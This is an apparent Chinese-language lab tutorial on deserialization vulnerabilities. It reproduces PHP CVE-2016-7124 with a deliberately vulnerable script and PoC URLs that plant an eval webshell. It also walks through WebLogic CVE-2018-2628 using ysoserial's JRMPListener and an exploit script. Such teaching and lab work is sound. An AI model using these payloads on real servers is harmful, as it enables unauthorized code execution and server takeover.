# PHP反序列化

## 什么是序列化及反序列化？

讲PHP反序列化的时候，基本都是围绕着serialize()，unserialize()这两个函数。
serialize() 函数序列化对象后，可以很方便的将它传递给其他需要它的地方，且其类型和结构不会改变。

**语法**

```
string serialize ( mixed $value )
```

**实例**

可通过链接进行测试：https://c.runoob.com/compile/1

```
<?php
$a = array('a' => 'Apple' ,'b' => 'banana' , 'c' =>'Coconut');
//序列化数组
$s = serialize($a);
echo $s;
//输出结果：a:3:{s:1:"a";s:5:"Apple";s:1:"b";s:6:"banana";s:1:"c";s:7:"Coconut";}
?>
```

unserialize() 函数用于将通过 serialize() 函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

**语法**

```
mixed unserialize ( string $str )
```

**实例**
可通过链接进行测试https://c.runoob.com/compile/1

```
<?php
$str = 'a:3:{s:1:"a";s:5:"Apple";s:1:"b";s:6:"banana";s:1:"c";s:7:"Coconut";}';
$unserialized_data = unserialize($str);
print_r($unserialized_data);
?>
```

php允许保存一个对象方便以后重用，这个过程被称为序列化。
在传递变量的过程中，有可能遇到变量值要跨脚本文件传递的过程。试想，如果在一个脚本中想要调用之前一个脚本的变量，但是前一个脚本已经执行完毕，所有的变量和内容释放掉了，我们要如何操作呢?
难道要前一个脚本不断的循环，等待后面脚本调用?
这肯定是不现实的。serialize和unserialize就是用来解决这一问题的。
serialize可以将变量转换为字符串并且在转换中可以保存当前变量的值；unserialize则可以将serialize生成的字符串变换回变量。


## PHP反序列化漏洞成因

PHP类中有一种特殊函数体的存在叫魔法函数，magic函数命名是以符号开头的，比如 construct,destruct, toString, sleep, wakeup等等。这些函数在某些情况下会自动调用。而在反序列化时，如果反序列化对象中存在魔法函数，使用unserialize()函数同时也会触发。这样，一旦我们能够控制unserialize()入口，那么就可能引发对象注入漏洞。

```
construct():当一个类被创建时自动调用
destruct():当一个类被销毁时自动调用
invoke():当把一个类当作函数使用时自动调用
tostring():当把一个类当作字符串使用时自动调用
wakeup():当调用unserialize()函数时自动调用
sleep():当调用serialize()函数时自动调用
__call():当要调用的方法不存在或权限不足时自动调用
```


## CVE-2016-7124 php反序列化漏洞复现

如果存在 __wakeup 方法，调用 unserilize() 方法前则先调用__wakeup 方法，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过 __wakeup 的执行

漏洞影响版本

PHP5 < 5.6.25
PHP7 < 7.0.10

漏洞复现

测试脚本如下：

```
<?php
class test{
public $name = "faairy";
public function
__wakeup(){
echo "this is __wakeup<br>";
}
public function __destruct(){
echo "this is __destruct<br>";
}
}
$str = $_GET["s"];
@$un_str = unserialize($str);
echo
$un_str->name."<br>";
?>
```

脚本上标明接收s参数，对其反序列化后输出name属性的值。
编写poc访问该脚本:

```
http://ip/test7124.php?s=O:4:"test":1:{s:4:"name";s:5:"fairy";}
```

访问结果如下图所示：



根据访问结果可以看到反序列化之前先调用了_wakeup 方法，再调
用 destruct 方法。
将传入的序列化数据的对象变量个数由1更改为2，页面只执行了__destruct方法，而且没有输出name，是由于反序列化数据时失败无法创建对象。



修改测试脚本如下：

```
<?php
class test{
public $name = "fairy";
public function
__wakeup(){
echo "this is __wakeup<br>";
foreach(get_object_vars($this) as $k => $v){
$this->$k = null;
}
}
public function __destruct(){
echo "this is __destruct<br>";
$fp = fopen("/var/www/html/poc.php","w");
fputs($fp,$this->name);
fclose($fp);
}
}
$str = $_GET["s"];
@$un_str = unserialize($str);
echo
$un_str->name."<br>";?>
```

构造Poc进行写入一句话木马操作。

Poc为：

```
http://ip/poc7124.php?s=O:4:"test":1:{s:4:"name";s:29:"<?php @eval($_POST['123']);?>";}
```

执行后结果如下图所示：



在对应的文件夹找到刚刚写入的文件poc.php，发现文件中内容为空，没有一句话木马，说明写入失败。



失败原因为：destruct方法在调用时将name参数写入wcute.php
文件但是由于wakeup方法清除了对象属性，所以在调用__destruct时已经没有了name属性，因此文件将会写入失败。
将Poc中对象属性个数改为2继续尝试

Poc为：

```
http://ip/poc7124.php?s=O:4:"test":2:{s:4:"name";s:29:"<?php @eval($_POST['123']);?>";}
```

执行后如下图所示：



在对应的文件夹找到该文件发现文件中被写入了一句话木马。

如图所示：



使用菜刀连接http://172.16.75.36/poc.php
发现连接成功，如下图所示




## 总结：

序列化是类似于将数据变成类似于json的样式，如同name:farmsec
反序列化是将如name：farmsec还原
在PHP语法中，某些场景下会遇到魔法函数，自动调用。
由此构造特殊payload，利用PHP语句形成webshell。


# JAVA反序列化

序列化是让Java对象脱离Java运行环境的一种手段，可以有效的实现多平台之间的通信、对象持久化存
储。Java 序列化是指把 Java 对象转换为字节序列的过程便于保存在内存、文件、数据库中，ObjectOutputStream类的 writeObject() 方法可以实现序列化。反
序列化是指把字节序列恢复为 Java 对象的过程，ObjectInputStream 类的 readObject() 方法用于反序列化。漏洞成因序列化和反序列化本身并不存在问题。但当输入的反序列化的数据可被用户控制，那么攻击者即可通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的任意代码.

```
https://www.cnblogs.com/Fluorescence-tjy/p/11222052.html
https://www.freebuf.com/vuls/229140.html
```

CVE-2018-2628 weblogic 反序列化

JRMP:java remote method protocol，Java远程方法协议
JRMP是的Java技术协议的具体对象为希望和远程引用。JRMP只能是一个Java特有的,基于流的协议。相
对于的RMI - IIOP的 ，该协议JRMP只能是一个对象的Java到Java的远程调用，这使得它依赖语言，意思
是客户端和服务器必须使用Java。
JRMP:Java远程消息交换协议JRMP（Java Remote Messaging Protocol）
该协议基于TCP/IP，既然是作为信息交换协议，必然存在接收和发送两个端点，JRMPListener可以粗糙的理解为发送端，在本实验中意为攻击机上1099端口与weblogic靶机上的7001进行通信达到远程命令执行的目的。



漏洞复现：



攻击机为kali linux
在JRMPListener主机上运行命令

```
docker run -ti -p 7001:7001 vulhub/weblogic:10.3.6.0-2017
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "touch /tmp/111"
```



运行exploit脚本

```
python2 44553.py 192.168.0.101 7001 ysoserial-all.jar 192.168.0.101 1099 JRMPClient
```

进入docker靶机查看文件是否创建成功


